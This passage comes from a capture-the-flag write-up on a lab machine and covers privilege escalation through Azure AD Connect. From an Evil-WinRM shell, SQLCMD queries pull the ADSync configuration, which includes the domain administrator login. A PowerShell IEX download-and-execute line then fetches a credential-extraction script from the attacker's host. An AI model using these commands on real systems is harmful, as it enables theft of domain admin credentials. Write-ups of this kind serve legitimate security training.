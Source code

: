 ###### Azure AD Connect PE
Found this [blog](https://blog.xpnsec.com/azuread-connect-for-redteam/) that talks about attacking the Password Hash Synchronization feature of the Azure AD Connect. Following the steps, I found the **SQLCMD.EXE** tool to query to the local MSSQL database.

```
*Evil-WinRM* PS C:\Program Files\Microsoft SQL Server\110\Tools\Binn> SQLCMD.EXE -?
Microsoft (R) SQL Server Command Line Tool
Version 14.0.2027.2 NT
Copyright (C) 2017 Microsoft Corporation. All rights reserved.

usage: Sqlcmd            [-U login id]          [-P password]
  [-S server]            [-H hostname]          [-E trusted connection]
  [-N Encrypt Connection][-C Trust Server Certificate]
  [-d use database name] [-l login timeout]     [-t query timeout]
...SNIP...
```

Based on the blog above, the configuration data is stored in *private_configuration_xml* and *encrypted_configuration* field. I validated that I can access the data in both fields.

```
*Evil-WinRM* PS C:\Program Files\Microsoft SQL Server\110\Tools\Binn> SQLCMD.EXE -q "select top(1) private_configuration_xml from [ADSync].[dbo].[mms_management_agent] WHERE ma_type = 'AD'"
private_configuration_xml
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
<adma-configuration>
 <forest-name>MEGABANK.LOCAL</forest-name>
 <forest-port>0</forest-port>
 <forest-guid>{00000000-0000-0000-0000-000000000000}</forest-guid>
 <forest-login-user>administrator</forest-login-user>
 <forest-login-domain>MEGABANK.LOCAL

(1 rows affected)
*Evil-WinRM* PS C:\Program Files\Microsoft SQL Server\110\Tools\Binn> SQLCMD.EXE -q "select top(1) encrypted_configuration from [ADSync].[dbo].[mms_management_agent] WHERE ma_type = 'AD'"
encrypted_configuration
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
8AAAAAgAAABQhCBBnwTpdfQE6uNJeJWGjvps08skADOJDqM74hw39rVWMWrQukLAEYpfquk2CglqHJ3GfxzNWlt9+ga+2wmWA0zHd3uGD8vk/vfnsF3p2aKJ7n9IAB51xje0QrDLNdOqOxod8n7VeybNW/1k+YWuYkiED3xO8Pye72i6D9c5QTzjTlXe5qgd4TCdp4fmVd+UlL/dWT/mhJHve/d9zFr2EX5r5+1TLbJCzYUHqFLvvpCd1rJEr68g

(1 rows affected)
```

The blog provides a PoC to extract and decrypt the credentials stored in the files. I used `IEX` to import the PoC from my machine (with Python web server) and run it, but it returns an error and crashes the **evil-winrm**.

```
*Evil-WinRM* PS C:\Users\mhope\Documents> IEX(New-Object Net.WebClient).DownloadString("http://10.10.16.4:8000/adconnectsync.ps1")

Error: An error of type WinRM::WinRMWSManFault happened, message is [WSMAN ERROR CODE: 1726]: <f:WSManFault Code='1726' Machine='10.10.10.172' xmlns:f='http://schemas.microsoft.com/wbem/wsman/1/wsmanfault'><f:Message>The WSMan provider host process did not return a proper response.  A provider in the host process may have behaved improperly. </f:Message></f:WSManFault>

Error: Exiting with code 1
```
